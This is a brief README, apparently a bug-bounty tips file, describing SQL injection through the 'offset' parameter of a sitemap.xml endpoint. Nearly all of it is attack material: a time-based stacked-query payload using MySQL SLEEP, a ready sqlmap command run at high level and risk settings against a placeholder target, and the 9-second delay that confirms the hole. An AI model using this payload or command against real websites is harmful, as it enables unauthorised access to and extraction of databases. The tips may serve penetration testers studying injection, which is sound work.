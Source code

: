 # Tips-TRick
----------------------------------------------------------------------------------------------------------
SQL Injection On **sitemap.xml** endpoint

A -  target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
B -  sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"

sleep payload 
[1;SELECT IF((8303>8302),SLEEP(9),2356)#] = 9s

---------------------------------------------------------------------------------------------

